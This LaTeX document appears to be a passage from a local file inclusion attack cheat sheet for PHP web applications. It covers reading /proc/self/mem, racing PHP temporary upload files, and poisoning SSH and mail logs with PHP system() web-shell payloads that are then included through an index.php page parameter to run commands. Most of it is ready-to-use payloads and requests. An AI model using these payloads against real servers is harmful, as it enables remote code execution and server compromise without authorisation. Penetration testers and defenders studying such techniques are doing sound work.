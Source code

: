 \documentclass[12pt]{article}
\begin{document}
Bruteforce file descriptors to find open files.

\subsection{/proc/self/mem - Memory Reading}

Advanced technique to read process memory:

\begin{lstlisting}
/proc/self/mem
/proc/self/maps
\end{lstlisting}

\subsection{Uploaded File Inclusion}

Find temporary uploaded files:

\begin{lstlisting}
/tmp/php[0-9a-zA-Z]*
/var/tmp/php[0-9a-zA-Z]*
\end{lstlisting}

Race condition: include file before PHP deletes it.

\subsection{SSH Log Poisoning}

If you can log in via SSH (even with wrong password):

\begin{lstlisting}
ssh '<?php system($_GET["cmd"]); ?>'@target.com
\end{lstlisting}

Then include:

\begin{lstlisting}
/index.php?page=/var/log/auth.log&cmd=id
\end{lstlisting}

\subsection{Mail Log Poisoning}

Send email to local user:

\begin{lstlisting}
mail -s "<?php system('id'); ?>" user@localhost < /dev/null
\end{lstlisting}

Include the mail log:

\begin{lstlisting}
/index.php?page=/var/log/mail.log
\end{lstlisting}
\end{document}
